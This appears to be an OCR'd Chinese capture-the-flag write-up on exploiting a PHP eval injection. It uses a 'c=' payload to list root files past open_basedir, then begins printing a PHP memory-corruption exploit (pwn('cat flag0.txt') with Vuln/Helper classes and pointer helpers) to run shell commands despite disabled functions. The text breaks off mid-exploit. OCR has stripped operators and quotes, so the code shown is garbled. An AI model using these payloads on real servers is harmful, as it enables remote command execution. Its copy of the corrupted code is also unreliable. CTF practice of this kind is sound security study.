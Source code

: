 
你要上天吗？
执行c=include('flag.php');exit(0);没内容打印。

有进行读取根目录文件，但是被 open_basedir限制.

进行绕过。

c=$it=newDirectoryIterator(glob);foreach($itas$f) {echo$f-getFilename().n;}die();
得到根目录文件

bin dev etc flag0.txt home lib media mnt opt proc root run sbin srv sys tmp usr var
有flag0.txt.

Warning include() Failed opening 'flag0.txt' for inclusion (include_path='.usrlocallibphp') in varwwwhtmlindex.php(19)  eval()'d code on line 1
exp

php
pwn(cat flag0.txt);

function pwn($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this-a);
            $backtrace = (new Exception)-getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP = 7.4
                $backtrace = debug_backtrace();
            }
        }
    }
    
    class Helper {
        public $a, $b, $c, $d;
    }
    
    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j = 0; $j--) {
            $address = 8;
            $address = ord($str[$p+$j]);
        }
        return $address;
    }
    
    function ptr2str($ptr, $m = 8) {
        $out = ;
        for ($i=0; $i  $m; $i++) {
            $out .= sprintf(%c,($ptr & 0xff));
            $ptr = 8;
        }
        return $out;
    }
    